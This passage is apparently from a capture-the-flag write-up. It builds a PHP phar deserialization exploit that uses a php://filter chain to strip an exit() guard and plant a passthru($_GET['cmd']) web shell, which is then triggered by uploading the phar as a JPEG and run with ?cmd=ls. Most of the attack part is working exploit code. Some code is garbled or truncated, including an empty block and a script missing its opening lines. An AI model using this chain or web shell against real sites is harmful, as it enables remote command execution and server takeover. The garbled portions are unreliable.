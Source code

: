 So when we call `http://url/up/bbb.php` the php will be kinda like  
```

```

So it is impossible to call our php code without removing the exit stopper.

We could delete the stopper code by using PHP filter. (PHP filter is awesome
:D)  
More about this see this presentation
`https://www.ptsecurity.com/upload/corporate/ru-
ru/webinars/ics/%D0%90.%D0%9C%D0%BE%D1%81%D0%BA%D0%B2%D0%B8%D0%BD_%D0%9E_%D0%B1%D0%B5%D0%B7%D0%BE%D0%BF_%D0%B8%D1%81%D0%BF_%D0%A0%D0%9D%D0%A0_wrappers.pdf`  
```  
";  
$content = "\n";  
$content .= json_encode([[$c], 1]);  
var_dump($content);  
$file = 'php://filter/write=string.strip_tags|convert.quoted-printable-
decode/resource=./output;  
file_put_contents($file, $content);  
```  
When this code is executed, it will remove the exit function.

We could include this code in our phar_create.php and this is our final code

```  
phar_create.php  
startBuffering();  
$phar->addFromString("test.txt","test");  
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");  
$cl2 = new cl2();  
$cl2->writeTimes = 0;  
$cl2->options = [  
    "data_compress" => false,  
    "prefix" => "",  
    "serialize" => "strval",  
    "expire" => 111111111111  
];

$cl1 = new cl1($cl2, "php://filter/write=string.strip_tags|convert.quoted-
printable-decode/resource=/var/www/html/up/bbb.php");  
$cl1->store = $cl2;  
$cl1->key = "php://filter/write=string.strip_tags|convert.quoted-printable-
decode/resource=/var/www/html/up/bbb.php";  
$cl1->autosave = false;  
$cl1->cache = [  
    "=3C=3Fphp passthru(\$_GET['cmd']); ?>"  
];  
$cl1->complete = 1;

$phar->setMetadata($cl1);  
$phar->stopBuffering();  
```

Rename the `phar.phar` to `phar.jpeg`, upload it and execute phar code in
index.php with `php://filter/resource=phar://IMAGE_ID`.  
After that execute shell by going to `http://URL/up/bbb.php?cmd=ls`.  
The flag could be found on the `/` directory
